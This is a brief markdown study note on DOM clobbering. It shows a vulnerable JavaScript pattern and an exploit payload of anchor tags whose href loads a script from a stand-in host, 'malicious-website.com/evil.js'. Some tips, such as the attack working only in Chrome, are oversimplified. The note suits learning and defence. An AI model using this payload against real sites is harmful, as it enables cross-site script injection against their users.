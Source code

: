 # DOM Clobbering

_DOM clobbering_ is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page

```
- window object & scope
- <button id="btn">click me</button>
- event listener
- <a id=someObject href="a:alert(1);">
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/toString
```

### multi level attribute

```
- Multi-Level
    - form[name], form[id]
    - HTML Collection -> chrome
    - https://dclobber.herokuapp.com
    - New DOM Clobbering techniques
        - https://portswigger.net/research/dom-clobbering-strikes-back
```

### common pattern

```
var someObject = window.someObject || {};

<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

### exploit

```
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

### Tips

this attack only work in  chrome

if programmer use fixed value for window.someObject this bug not work

we can directly call every object with id tag name !
